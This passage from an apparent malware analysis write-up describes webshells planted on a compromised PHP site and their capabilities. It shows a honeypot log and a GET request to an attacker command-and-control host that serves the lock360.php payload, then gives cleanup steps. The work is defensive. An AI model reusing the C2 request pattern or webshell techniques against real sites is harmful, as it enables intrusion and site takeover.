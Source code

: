 There's not much to say about this one, as I don't see that any obvious functions were added like in the previous shell. This particular shell gives much more functionality to an attacker, all of which is documented in Chinese on [this Github page](https://github.com/su18/Stitch). A translation of the main functions give us the following:

* File management
* Command execution
* Code execution
* Port scanning
* Database execution
* [`LD_PRELOAD`](https://www.baeldung.com/linux/ld_preload-trick-what-is)
* Notifications

---------------------

# `/lock360.php`

The last unique file found in the `.htaccess` is `lock360.php` which isn't as highly obfuscated as the other files, but still contains some very important functions to the attacker. The code for this file comes from another honeypot request:

```
Time: 2023-01-01 06:06:51pm
IP: 23.83.247.59
Request Obj:a:4:{s:2:"ac";s:2:"cl";s:3:"api";s:0:"";s:4:"path";s:37:"/home4/path/to/host/public_html/<victim domain>.com";s:1:"t";s:32:"9e9a4d7fcd456b678f18e7397fbf47c6";}
```

Which creates the following request: `GET https://c.wiv3.com/?api=&ac=cl&path=/home4/path/to/host/public_html/<victim domain>.com&t=9e9a4d7fcd456b678f18e7397fbf47c6`

And the response:

`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da/57b078cb06a7e53e6eeeafbc8d4df5f627a81d65#lock360.php`

This file serves as a way for the attacker to check what stage of infection a particular host is in using several regular expressions that check for different pieces of text or code that might exist in various files. There are also functions in the file that let the attacker send a request to clean up the infection and remove any existing malicious files.

# Removal

Here are some things you can try to remove this malware from your site. If you've tried these things and are still having trouble, feel free to email or DM me and we can look at it together.

1. Create a zip file backup of your entire `/var/www` directory, download it just in case something goes wrong.

2. SSH into your server and check for any cronjob's that might be running by typing `crontab -e`. If you see anything in the crontab that looks like it's pointing to a file that is malicious (this could be a PHP file, a shell script, calls out to a C2 server through Curl, etc.), comment it out, and refresh the cron service by running `/etc/init.d/cron restart` or `service cron restart`.
